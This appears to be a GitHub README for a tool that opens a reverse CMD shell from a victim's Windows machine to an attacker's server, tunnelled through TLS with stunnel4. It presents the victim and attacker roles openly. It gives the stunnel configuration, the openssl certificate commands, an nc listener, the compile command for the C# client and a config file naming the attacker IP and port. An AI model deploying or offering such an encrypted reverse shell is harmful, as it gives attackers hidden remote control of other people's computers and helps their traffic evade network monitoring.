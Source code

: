 # STunnell_RevShell
A Reverse shell through Stunnel.
## Architecture
- Client Net4.8 C#
- Server Stunnell4

## Scenario:
Client is the victim, that executes the connection to the server (attacker) that serves stunnell.
The client SSL authentication must match the CN specified creating the server certificate (example: lguerra.local)

    sslStream.AuthenticateAsClient("lguerra.local");
	
	
Server is the attacker running stunnel4. Follows the configuration:
	
	cat /etc/stunnel/stunnel.conf 
	[nc]
	client = no
	accept = 9999
	connect = 127.0.0.1:6666
	cert = /etc/stunnel/lguerra.pem
	
	
Here we have stunnel listening for incoming connection on port 9999, then forwards the connection to port 6666 where we will have nc listening.

## Create the certificate on the server
	
	openssl genrsa -out key.pem 2048
	openssl req -new -x509 -key key.pem -out cert.pem -days 1095
	cat key.pem cert.pem > /etc/stunnel/stunnel.pem
 
The CN value must be used to authenticate the client as previously indicated.
Start stunnell
	
 service stunnel4 start
	
Check if works:

    netstat -tulp | grep 9999
	  Active Internet connections (only servers)
	  Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
	  tcp        0      0 0.0.0.0:9999            0.0.0.0:*               LISTEN      19338/stunnel4
	  ...
	
Then we can lunch nc to listen on port 6666 as configurated on stunnel

	nc -lvp 6666
	
## Compile the client:
Youn can compile the client as follows:

	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe STunnel_RevShell.cs
	
The configuration file (config) must be present in the same directory of the executable file and must contain the following information:

	ip:<attacker machine IP>
	port:<listen stunnel port on the attacker machine>
	CN:<CN name as set on the stunnel certificate> 

	
Executing Program.exe we should read the following on the shell

	STunnel_RevShell.exe 	
		Starting decoding, please wait...
		Certificate revocation list checked: False
		...
The you shoud get a CMD shell on the attacker
	
		

